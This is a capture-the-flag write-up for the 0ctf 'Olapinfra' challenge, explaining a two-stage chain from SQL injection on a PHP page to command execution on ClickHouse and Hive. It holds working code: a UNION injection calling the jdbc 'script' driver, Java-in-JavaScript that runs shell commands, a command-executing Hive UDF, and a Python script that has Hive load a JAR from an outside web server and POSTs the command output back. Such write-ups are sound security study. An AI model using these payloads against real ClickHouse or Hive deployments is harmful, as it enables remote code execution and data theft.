 <style>
    .caption {
        display:block;
        float:right;
    }
</style>


# Olapinfra writeup
## Summary
Part 1: SQL injection on `web` => Clickhouse `jdbc` script driver => RCE<br>
Part 2: Create exec function in `hive` => RCE<br>

## Overview
`web`: PHP web server that executes a `SELECT` db query against `clickhouse`. We control part of the query. <br>
`clickhouse`: Essentially just a DBMS. Set up to query `hive` for the `u_data` table. Not connected to the outside network. <br>
`hive`: A data warehouse that stores the `u_data` table. Uses `hadoop` to actually store said data. Not connected to the outside network. <br>
`hadoop`: Distributed storage that both `clickhouse` and `hive` rely on. Not connected to the outside network. <br>

## Process (part 1)
See SQL injection on `web` against `clickhouse`, spend a couple hours understanding how the whole chall is tied together.

```php
$statement = $db->select('SELECT * FROM u_data WHERE ' . $_GET['query'] . ' LIMIT 10');
```
<span class="caption">_the SQL vuln in `web`_</span>

So, `clickhouse` has its own SQL language, with a few extra functions defined. There were some interesting ones like `url()`, but the most interesting one is `jdbc-bridge`, used in the `Dockerfile` for the container, especially because ClickHouse has a page on security, so an RCE vuln against default ClickHouse would amount to a 0-day, which'd be unlikely. <br>

```Dockerfile
FROM clickhouse/jdbc-bridge:2.1.0
```
<span class="caption">_non-default stuff is usually kinda sus_</span>

![Bridge Diagram](https://user-images.githubusercontent.com/4270380/103492828-a06d1200-4e68-11eb-9287-ef830f575d3e.png)
<span class="caption">_Diagram on the JDBC bridge Github page_</span>

Turns out, the `script` driver accepts some weird mix between `javascript` and `java`, and with this payload, we get part 1:

```python
sqlinject=f"""
1=1 UNION ALL SELECT results, results, results, results FROM jdbc('script', `{script}`)
""".strip()
    
r = requests.get(f"{CHALL_URL}", params={
    "query": sqlinject
})
```

The script:

```javascript
var p = new java.lang.ProcessBuilder["(java.lang.String[])"](["/bin/sh", "-c", "/readflag"]).start();
var builder = new java.lang.StringBuilder();
var line = null;
while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {{
    builder.append(line);
}}
var res = builder.toString();
```

## Process (part 2)
With RCE on `clickhouse`, we can start by assuming that we can make arbitrary connections to `hive` and `hadoop` (i.e., change the docker-compose network for `hive` to `outer-network`). `hive` has its own extended SQL language, called HiveQL, which also defines functions not found in standard SQL (User-Defined Functions, or UDFs).<br>

There's a rudimentary blacklist against what UDFs you can use, defined in `hive-site.xml`, which prevents easy ways of executing arbitrary Java code. Hive does allow creating functions from JARs.

```xml
    <property>
        <name>hive.server2.builtin.udf.blacklist</name>
        <value>reflect,reflect2,java_method</value>
    </property>
```
<span class="caption">_XML definition for UDF blacklist_</span><br>

```sql
CREATE FUNCTION [db_name.]function_name AS class_name
  [USING JAR|FILE|ARCHIVE 'file_uri' [, JAR|FILE|ARCHIVE 'file_uri'] ];
```
<span class="caption">_file\_uri??_</span>

So, we followed instructions [here](https://docs.cloudera.com/data-warehouse/cloud/querying-data/topics/hive_create_udf_class.html), exposed the JAR on a perl web server, sent a query to `hive` to create the function, and then executed it. This gave us RCE on part 2, so the final bit to complete was actually doing everything from part 1's RCE on `clickhouse`.<br>

<details closed>
    <summary>Source for JAR code</summary>

        package com.example;

        import org.apache.hadoop.hive.ql.exec.UDFArgumentException;
        import org.apache.hadoop.hive.ql.metadata.HiveException;
        import org.apache.hadoop.hive.ql.udf.generic.GenericUDF;
        import org.apache.hadoop.hive.serde2.objectinspector.ObjectInspector;
        import org.apache.hadoop.hive.serde2.objectinspector.primitive.PrimitiveObjectInspectorFactory;
        import org.apache.hadoop.io.Text;

        import avro.shaded.com.google.common.collect.ImmutableBiMap.Builder;

        import java.lang.ProcessBuilder;

        public class Execute extends GenericUDF {
        private final Text output = new Text();

        @Override
        public ObjectInspector initialize(ObjectInspector[] arguments) throws UDFArgumentException {
            checkArgsSize(arguments, 1, 1);
            checkArgPrimitive(arguments, 0);
            ObjectInspector outputOI = PrimitiveObjectInspectorFactory.writableStringObjectInspector;
            return outputOI;
        }

        @Override
        public Object evaluate(DeferredObject[] arguments) throws HiveException {
            String cmd = arguments[0].get().toString();
            try {
            ProcessBuilder pb = new ProcessBuilder(cmd.split(" "));
            Process p = pb.start();
            p.waitFor();
            String result = "";
            StringBuilder builder = new java.lang.StringBuilder();
            String line = null;
            while ((line = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream())).readLine()) != null) {
                builder.append(line);
            }
            String res = builder.toString();
            output.set(res);
            } catch (Exception e) {
            output.set(e.toString());
            }
            return output;
        }

        @Override
        public String getDisplayString(String[] children) {
            return getStandardDisplayString("TYPEOF", children, ",");
        }
        }
</details>

<details closed>
    <summary>Getting RCE on Hive</summary>

    from pyhive import hive
    import socket

    domain = "web-server-url"
    url = f"https://{domain}"
    url = f"{url}/demo/target/demo-1.0-SNAPSHOT.jar"
    con=hive.Connection(host="localhost",port=10000,username="default")
    cursor = con.cursor()
    try:
        stmt = f'create function exec as "com.example.Execute" using jar "{url}"'
        cursor.execute(stmt)
    except:
        pass # already exists
    stmt = f'select exec("/readflag")'
    cursor.execute(stmt)
    res = (cursor.fetchall())
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((domain, 80))
    s.sendall(f"""POST / HTTP/1.1
    Content-Type: application/json
    Content-Length: {len(res[0][0])}

    {res[0][0]}
    """)
</details>

<br>

So, we converted the above script to a binary (`PyInstaller`), sent it over the RCE vector, together with the JAR and an HTTP server, had `hive` fetch the function JAR from `clickhouse`, and got RCE on part 2.<br>

`0ctf{the_world_is_chaos_and_so_do_this_challenge}`<br>

(Btw, because everything but `web` is on the inner network, they can't download anything publicly accessible, and because the SQL injection vector is in a query param, we can only send about 4kB of data per connection. The binaries alone were 3MB...)

## Sources:
- https://github.com/ClickHouse/clickhouse-jdbc-bridge (ClickHouse JDBC bridge)
- https://cwiki.apache.org/confluence/display/Hive/ (Hive docs)
- https://cwiki.apache.org/confluence/display/Hive/LanguageManual+DDL#:~:text=Permanent+Functions (Hive docs for creating UDFs)
